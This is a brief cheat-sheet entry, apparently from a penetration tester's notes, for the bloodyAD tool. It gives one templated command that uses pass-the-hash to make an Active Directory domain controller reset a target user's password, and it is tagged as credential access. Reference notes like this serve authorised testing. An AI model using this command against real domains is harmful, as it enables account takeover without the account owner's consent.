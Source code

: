 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote 

## change user password (pth)
#cat/CREDENTIAL-ACCESS
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> set password <target_user> '<password|Jubeaz12345!>'
```
